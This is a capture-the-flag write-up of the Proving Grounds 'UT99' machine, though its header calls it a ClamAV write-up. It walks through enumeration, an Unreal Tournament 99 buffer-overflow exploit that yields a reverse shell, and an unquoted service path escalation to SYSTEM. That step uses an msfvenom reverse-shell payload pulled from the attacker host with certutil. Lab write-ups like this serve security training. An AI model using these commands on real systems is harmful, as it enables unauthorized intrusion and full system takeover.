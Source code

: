 ```yaml
---
description: Proving Grounds PG Practice ClamAV writeup
---
```


# UT99

## Nmap

```
sudo nmap 192.168.142.44 -p- -sS -sV                               

PORT     STATE SERVICE      VERSION
21/tcp   open  ftp          FileZilla ftpd
80/tcp   open  http         Apache httpd 2.4.16 (OpenSSL/1.0.1p PHP/5.6.12)
443/tcp  open  ssl/http     Apache httpd 2.4.16 (OpenSSL/1.0.1p PHP/5.6.12)
3306/tcp open  mysql        MySQL (unauthorized)
6660/tcp open  irc          InspIRCd
-
-
7000/tcp open  irc          InspIRCd
6673/tcp open  vision_elmd?
7001/tcp open  tcpwrapped
7005/tcp open  tcpwrapped
7007/tcp open  irc          InspIRCd
Service Info: Hosts: localhost, www.example.com, irc.madcowz.localdomain; 
OS: Windows; CPE: cpe:/o:microsoft:window
```

Whilst FTP open I was unable to connect successfully without valid credentials as shown below:

![](<../../../.gitbook/assets/image (1899).png>)

Trying the web server we see we are taken to the MadCowz website.

![](<../../../.gitbook/assets/image (1900).png>)

Running `whatweb` against the web server shows it is running Apache 2.4.16 on a 32-bit Windows host.

![](<../../../.gitbook/assets/image (1901).png>)

From here nothing else too interesting was found on the web sever by means of exploitation. MySQL login was also denied to my attacking machine.

However, we do have IRC open on a large range of ports 6660-7000,7007. Connecting to these ports with command line options was proving unreliable due to frequent disconnections. Installing HexChat proved much more successful.

```
sudo apt-get install hexchat
```

With HexChat open add a network and use the settings as per shown below. Ensuring the correct IP is set.

![](<../../../.gitbook/assets/image (1903).png>)

After doing so close the window and then connect to the new network. You should see a similar screen as below:

![](<../../../.gitbook/assets/image (1904).png>)

From here go to `Server --> Channel List --> Perform a wildcard * search on the defaultsettings` to find the channel **#ut99**.

![](<../../../.gitbook/assets/image (1905).png>)

This channel identifies the server is intended for Unreal Tournament 99 which we know is also running on Windows due to previous enumeration. Joining the channel also reveals the user Daisy.

![](<../../../.gitbook/assets/image (1906).png>)

Searching for Unreal Tournament 99 exploits for Windows on exploit-db shows the following:

{% embed url="https://www.exploit-db.com/exploits/16145" %}

After downloading the exploit code and looking through it we see the following usage example:

```perl
unreal_tournament-bof-win.pl <host> <query port> <reverse ip> <reverse port>
```

We know from the HexChat and Nmap enumeration that the server for UT99 is running on port 7778. I set up a `netcat` listener on my attacking machine to port 80. I then used the following command to connect to the target server.

```perl
perl ut99.pl 192.168.142.44 7778 192.168.49.142 80
```

Resulting in a reverse shell.

![](<../../../.gitbook/assets/image (1907).png>)

From here with standard enumeration we find the directory `C:\ftp` containing the following contents.

```
 Directory of c:\ftp

10/07/2015  06:21 AM    <DIR>          .
10/07/2015  06:21 AM    <DIR>          ..
10/07/2015  01:44 PM        35,984,520 FoxitReader706.1126_enu_Setup.exe
10/07/2015  04:46 AM        35,922,892 KB968930.msu
10/07/2015  01:45 PM       114,238,280 xampp-win32-5.6.12-0-VC11-installer.exe
```

The version of Foxit Reader shown 7.0.6.1126 appears to be vulnerable to an unquoted service path privilege escalation.

![](<../../../.gitbook/assets/image (1908).png>)

{% embed url="https://www.exploit-db.com/exploits/36390" %}
Exploit Link
{% endembed %}

Checking installed software on the target system we can see Foxit Reader is installed.

```
 Directory of c:\Program Files (x86)

10/07/2015  04:04 AM    <DIR>          .
10/07/2015  04:04 AM    <DIR>          ..
11/02/2006  06:33 AM    <DIR>          Common Files
10/07/2015  04:04 AM    <DIR>          Foxit Software
10/03/2015  02:34 AM    <DIR>          InspIRCd
04/11/2009  09:30 AM    <DIR>          Internet Explorer
11/02/2006  08:05 AM    <DIR>          MSBuild
09/30/2015  11:12 PM    <DIR>          Mumble
11/02/2006  08:05 AM    <DIR>          Reference Assemblies
04/11/2009  09:30 AM    <DIR>          Windows Calendar
01/20/2008  08:09 PM    <DIR>          Windows Collaboration
01/20/2008  08:08 PM    <DIR>          Windows Defender
04/11/2009  09:30 AM    <DIR>          Windows Mail
04/11/2009  09:30 AM    <DIR>          Windows Media Player
11/02/2006  08:05 AM    <DIR>          Windows NT
04/11/2009  09:30 AM    <DIR>          Windows Photo Gallery
04/11/2009  09:30 AM    <DIR>          Windows Sidebar
               0 File(s)              0 bytes
              17 Dir(s)  13,051,826,176 bytes free
```

Querying the service on the target systems shows the service is running in the context of SYSTEM and the binary path indeed contains spaces and is not wrapped in quotes.

```
cmd:>sc qc FoxitCloudUpdateService

[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: FoxitCloudUpdateService
TYPE               : 110  WIN32_OWN_PROCESS (interactive)
START_TYPE         : 2   AUTO_START
ERROR_CONTROL      : 1   NORMAL
BINARY_PATH_NAME   : C:\Program Files (x86)\Foxit Software\Foxit Reader\Foxit Cloud\FCUpdateService.exe
LOAD_ORDER_GROUP   : 
TAG                : 0
DISPLAY_NAME       : Foxit Cloud Safe Update Service
DEPENDENCIES       : 
SERVICE_START_NAME : LocalSystem
```

I then tested for write privileges in the binary path by creating a text file in the `C:\Program Files (x86)\Foxit Software\Foxit Reader\` path.

```
echo Hello > test.txt
```

Checking the contents of the directory after doing so we see the test.txt file.

```bash
 Directory of c:\Program Files (x86)\Foxit Software\Foxit Reader

08/25/2021  12:35 PM    <DIR>          .
08/25/2021  12:35 PM    <DIR>          ..
11/26/2014  06:03 PM           385,248 64BitMailAgent.exe
10/07/2015  04:04 AM    <DIR>          Advertisement
10/07/2015  04:04 AM    <DIR>          docusign
10/07/2015  04:05 AM    <DIR>          Foxit Cloud
08/25/2021  12:32 PM             7,168 Foxit.exe
11/27/2014  10:24 AM        42,164,448 FoxitReader.exe
11/27/2014  03:49 PM            74,588 FoxitReader.exe.man
11/26/2014  06:03 PM         4,856,544 FoxitUpdater.exe
11/26/2014  07:15 PM         1,621,728 FXCUSTOM.dll
10/07/2015  04:04 AM    <DIR>          lex
08/28/2014  10:25 AM            27,076 notice.txt
10/07/2015  04:04 AM    <DIR>          plugins
10/07/2015  04:04 AM    <DIR>          Release Note
11/26/2014  06:03 PM         2,093,280 SendCrashReport.exe
10/07/2015  04:04 AM    <DIR>          Shell Extensions
10/07/2015  04:04 AM    <DIR>          Skins
10/07/2015  04:04 AM    <DIR>          stamps
10/07/2015  04:04 AM    <DIR>          Start
08/25/2021  12:35 PM                 8 test.txt '# Test file created'
11/26/2014  07:07 PM         2,302,176 TrackReview.exe
10/07/2015  04:05 AM           278,490 unins000.dat
10/07/2015  04:02 AM         1,479,392 unins000.exe
10/07/2015  04:05 AM            22,701 unins000.msg
11/18/2014  04:38 PM         2,004,704 UninstallPrint.exe
10/07/2015  04:05 AM             1,270 UpdaterInfo.xml
              15 File(s)     57,318,821 bytes
              12 Dir(s)  13,053,591,552 bytes free
```

I then performed a test reboot of the machine and confirmed that as the user Daisy I was able to reboot the machine. Currently this looks like we have a path to privilege escalation.

Firstly using `msfvenom` I created a stageless reverse shell.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.142 LPORT=80 -f exe -o Foxit.exe
```

I then uploaded this to the directory `C:\Program Files (x86)\Foxit Software\Foxit Reader\`

```bash
certutil.exe -f -urlcache -split http://<IP>/Foxit.exe
```

After the upload was completed I started a netcat listener on my attacking machine then rebooted the target system.

```bash
shutdown.exe -r -f -t 1
```

![](<../../../.gitbook/assets/image (1910).png>)

Shortly after I was able to obtain privileges as SYSTEM.

![](<../../../.gitbook/assets/image (1909).png>)
